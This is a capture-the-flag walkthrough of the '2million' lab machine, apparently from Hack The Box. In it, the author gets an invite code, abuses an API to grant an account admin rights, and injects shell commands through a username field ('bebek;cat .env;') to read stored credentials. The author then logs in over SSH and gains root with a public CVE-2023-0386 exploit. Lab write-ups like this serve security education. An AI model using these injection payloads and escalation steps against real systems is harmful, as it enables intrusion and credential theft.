 1. Run Nmap to check which port is opened from the website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/35f857a9-b6c5-4ec1-9317-dd0dcea44fc3)

2. Add Vhost to /etc/hosts with named 2million.htb so we are able to see the website's content. <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8e65e202-ba12-44dc-95f4-d248a56de077)

Website's content:

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3ddf0471-3d80-4d71-b831-83e83465f440)

3. After analyze all of the feature, inside join feature, we can input the special code before making an account.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2d2c5210-5a5d-472a-a56f-0bbd2badbe07)

Content:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5cd8fc00-f19d-43a7-b4d2-fbf4663bb5a5)

4. Let's check the source code and we found that the feature directed to /js/inviteapi.min.js.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5b0731a6-dc47-4dae-8f43-954152709af9)

5. When we opened the file, it seems that the code is obfuscated.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/654985bd-7453-4430-872d-e8f73c3b27b6)

6. We can deofuscated with this amazing [tool](https://lelinhtinh.github.io/de4js/).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/69db88a6-a7a8-4599-8f10-5d0eb0d33ea9)

7. As we can see that the code is sent to 2million.htb/api/v1/invite/how/to/generate. to see what the codes inside there, we can run `curl -X POST 2million.htb/api/v1/invite/how/to/generate` where -X is to run the method.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b913fc84-8b3a-42dc-9758-f9784e6f07ed)

8. We know that the message encoded using ROT 13, so we can decode with this [website](https://www.dcode.fr/rot-13-cipher).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d6cbb0b6-d3c2-495c-911d-0e4a05495943)

9. The message says that we have to send request to 2million.htb/api/v1/invite/generate. We can use `curl -X POST 2million.htb/api/v1/invite/generate`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0c65752e-2e1c-41fa-9dd7-cd66ef561369)

10. Seems like it's base64 encoded message, so we decoded and YES! we get our special code and directed to Register page!.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/27a13a23-c73e-4423-84de-09809812d449)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a2d32665-cf49-47c9-b59f-4d6c5bc22190)

Register Page:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/29a36c04-cd44-4887-b08a-ba7ce1880fda)

11. Just give a random data and for my case, I inserted my username with bebek, email bebek@2million.htb, dan password bebekgoreng.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/cdad42d1-1a49-49a6-ab15-89674875b278)

12. Do login with our credentials before and we can see the homepage like this.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/cd685a93-5d25-4d90-9db5-35b073a7edab)

Homepage:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6414a2ff-7c3c-485a-acaa-259ea5893f88)

13. Again, checking one by one feature and found something interesting inside access feature. In this feature, we can download our own VPN Certificate (OpenVPN).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ac67b9b8-9201-4334-99eb-6cdd9b60b026)

14. Let's check the source code and we can know that the certificate is generated from `/api/v1/users/vpn/generate`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e225d551-7bf1-4655-9772-83525fdc6234)

15. When we opened the endpoint, we can only see the certificate content from the user so we can't get any crucial information there.Therefore, we are going to check the API itself with `curl -v 2million.htb/api`. <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ee3e07c7-2465-4997-9c78-85b527e50d47)

16. Copy the website's cookie and check the API endpoint using this command `curl -v 2million.htb/api --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c2cb0801-6339-44e6-b699-88591a028037)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a68f1b35-1f6d-44de-9e1d-e830be94a427)

17.Next let's check the api version endpoint with command `curl -v 2million.htb/api/v1 --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a31d5c4e-8243-4a4e-8cd7-46c9df709664)

18. There are several endpoints and all are related to admin. Since we are not admin yet, the feature that become the main focus is update. Checking the feature can be done by executing this command `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9be62ce6-e3f2-4288-96a7-a90d3be64a6f)

19. The message shows that we have to input some data. In this case, we input our email and password like this `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"email":"bebek@2million.htb", "password": "bebekgoreng"}'`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c6987d1f-eef9-4d77-9093-969e0d1665f1)

20. Now the message shows that is_admin is not in there so, we can set *is_admin value to true or is_admin = 1* with this command `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"email":"bebek@2million.htb", "password": "bebekgoreng", "is_admin": 1}'`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ade0bcad-912f-4f72-802c-ada8014fff14)

21. To check if my account is admin or not, we can use the auth feature with this command `curl -v 2million.htb/api/v1/admin/auth --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6e7bf7b-38d8-4a16-a52a-a696333250f3)

22. YES! We get the admin privilege, now we can check admin's VPN certificate. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c09e53d5-7760-4057-b6e4-01770d8f3683)

23. The message now shows that there is missing parameter named username so we can input our username inside our payload. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek"}'`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d8ecc215-bc9f-4971-938d-a6b7b005cbe0)

24. Okay, now the website generated the user's VPN certificate to us. How about next? Well, we now analyze if this configuration using exec() or system() in php. If yes then it becomes the vulnerability of this website. To prove it, we can insert linux command such as id, ls, cat, etc. between the data input like this `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;ls;"}'.`<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aa551358-d495-43d1-8954-d23ae0770984)

25. It works! Now we can add -a to see all hidden files inside. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;ls -a;"}'.`<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6b964261-894c-4ac0-9db0-939ecab46e1f)

26. Env file is always the main thing to get some crucial credentials. To open it we can use cat command. `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;cat .env;"}'.`<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1270aa62-feb1-4d83-b111-455219506f72)

27. From there we know the admin and the password. We can use ssh to use admin's terminal. `ssh admin@2million.htb`. Right after login, we get the user flag!<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7d4e4815-e538-4d94-93a2-959bc3fe5d1c)

28. Now we want to find the root flag. Unfortunately, we can't get the su privilege directly.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6329e9a7-e3ba-47aa-9553-e6bcc353a4cb)

29. Checking one by one directory inside the terminal and found some interesting message inside mail folder.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fa94501a-e7fb-4e88-b9e3-d9746cb58998)

30. The message says that there is CVE that related to OverlayFS and when we search in Google, we found that this is [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386) with this [payload](https://github.com/sxlmnwb/CVE-2023-0386).

31. Run git clone https://github.com/sxlmnwb/CVE-2023-0386 inside our local terminal and zip the folder then copy the zip to the admin terminal with command scp payload.zip admin@2million.htb:/home/admin.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/67c34621-0aa8-4e21-9995-55f30fb0e51f)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/03bf5fc5-e295-4ff6-a26b-a7330e2b671f)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1ec2258a-d2f1-4bf9-ad34-10ad97525e41)

Result in admin terminal:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a23d3dd6-3920-4a46-84e1-15c5569e2b47)

32. Unzip the file and execute the payload which is already listed in the github.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fcbf7136-56ad-415a-9f32-9e8a4db7f64c)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d9f1f897-9743-49eb-be1c-8d516204ae5f)

33. Let's go! we get the root privilege and got the flag from root directory!
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5bf3edbd-9e2c-4f6f-84dc-2e900d8d1a88)

